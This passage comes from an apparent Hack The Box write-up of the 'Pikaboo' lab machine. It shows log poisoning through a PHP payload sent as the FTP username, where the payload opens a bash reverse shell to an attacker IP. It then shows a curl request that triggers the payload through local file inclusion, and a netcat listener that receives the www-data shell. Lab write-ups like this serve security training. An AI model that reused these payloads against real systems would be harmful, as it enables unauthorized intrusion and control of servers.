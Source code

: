 Switch to another terminal with tcpdump listening for that ping:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:35:05.976732 IP pikaboo.htb > 10.10.14.43: ICMP echo request, id 4420, seq 1, length 64
21:35:05.976741 IP 10.10.14.43 > pikaboo.htb: ICMP echo reply, id 4420, seq 1, length 64
21:35:06.975411 IP pikaboo.htb > 10.10.14.43: ICMP echo request, id 4420, seq 2, length 64
21:35:06.975420 IP 10.10.14.43 > pikaboo.htb: ICMP echo reply, id 4420, seq 2, length 64
21:35:07.976764 IP pikaboo.htb > 10.10.14.43: ICMP echo request, id 4420, seq 3, length 64
21:35:07.976773 IP 10.10.14.43 > pikaboo.htb: ICMP echo reply, id 4420, seq 3, length 64
21:35:08.978070 IP pikaboo.htb > 10.10.14.43: ICMP echo request, id 4420, seq 4, length 64
21:35:08.978080 IP 10.10.14.43 > pikaboo.htb: ICMP echo reply, id 4420, seq 4, length 64
```

We capture the ping coming from the box which proves we successfully executed code. Let's try and get a reverse shell, I used a simple one from [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.43/1337 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

Our code is placed in the log, now read it to execute:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

Switch to a waiting netcat listener to see we are connected:

```sh
┌──(root💀kali)-[~]
└─# nc -lvvp 1337
listening on [any] 1337 ...
connect to [10.10.14.43] from pikaboo.htb [10.10.10.249] 55792
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pikaboo:/var/www/html/admin_staging$ 
```

Let's get the user flag first:
